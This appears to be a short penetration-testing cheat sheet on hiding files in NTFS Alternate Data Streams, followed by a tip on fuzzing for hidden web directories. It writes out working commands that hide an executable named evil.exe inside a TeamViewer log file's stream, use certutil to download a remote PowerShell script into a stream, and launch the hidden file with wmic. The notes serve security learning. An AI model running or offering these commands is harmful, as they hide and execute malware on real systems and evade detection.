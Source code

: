 # Uncategorized

### Alternate Data Streams:

* File on NTFS formatted drive has 2 streams:
  * Data stream: default stream - contains data
  * Resource stream: used for metadata
  * This is useful to hiding file
* Write to ADS
  * `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`
* Download directly into ADS
  * `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
* Executing from ADS
  * `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  * NOTE: full path
* There are many other methods to add and execute
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f



Tips

**Finding hidden directory**

```
/.FUZZ
/-FUZZ
/~FUZZ
/_FUZZ
```
